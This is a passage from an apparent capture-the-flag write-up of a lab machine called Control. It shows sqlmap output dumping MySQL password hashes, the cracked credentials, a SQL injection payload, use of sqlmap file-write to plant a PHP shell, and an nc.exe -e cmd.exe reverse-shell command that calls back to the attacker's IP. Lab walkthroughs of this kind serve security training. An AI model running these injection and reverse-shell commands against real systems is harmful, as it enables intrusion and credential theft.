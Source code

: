 ```aaa
[*] manager [1]:
    password hash: *CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA
[*] root [1]:
    password hash: *0A4A5CAD344718DC418035A1F4D292BA603134D8

[22:07:51] [INFO] fetched data logged to text files under '/home/baud/.sqlmap/output/10.10.10.167'
[22:07:51] [WARNING] you haven't updated sqlmap for more than 64 days!!!

[*] ending @ 22:07:51 /2020-04-05/
```

The program was able to pull three different hashes as well as the usernames they belong to, two of those hashes are easily matched with cleartext passwords by [CrackStation](https://crackstation.net/) so we don’t even have to bruteforce anything:

![img](/images/writeup-control/10.png)

This gives us two sets of possible credentials:

```aaa
User: hector
Pass: l33th4x0rhector

User: manager
Pass: l3tm3!n
```

The first thing I tried doing with the credentials is connecting to the MySQL server using the mysql client, however we are not authorized to access the server:

```aaa
baud@kali:~/HTB/control$ mysql -h 10.10.10.167 -u manager -p
Enter password: 
ERROR 1130 (HY000): Host '10.10.15.203' is not allowed to connect to this MariaDB server
```

So back to sqlmap, another possible way in is using the SQL injection vulnerability to upload arbitrary files on the server, like a simple PHP shell to execute shell commands. Here we’re going to have to guess the name of a directory we can write to, I went for the uploads folder found earlier and assumed it is located in the default IIS directory, C:\inetpub\wwwroot. Luckily the assumption was correct and the file was written on the server:

```aaa
baud@kali:~/HTB/control$ sqlmap -u http://10.10.10.167/search_products.php --data='productName=name' --headers='X-Forwarded-For: 192.168.4.28' --file-write=./baud.php --file-dest='C:\\inetpub\\wwwroot\\uploads\\baud3.php'
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.4.2#stable}
|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:27:43 /2020-04-06/

[17:27:43] [INFO] resuming back-end DBMS 'mysql' 
[17:27:43] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: productName (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: productName=-3076' OR 6013=6013#
```

[localhost]: PS C:\Users\Hector\Documents> whoami
[localhost]: PS C:\Users\Hector\Documents>
[localhost]: PS C:\Users\Hector\Documents> Invoke-Command -ScriptBlock { C:\inetpub\wwwroot\uploads\nc.exe -e cmd.exe 10.10.15.203 9898 }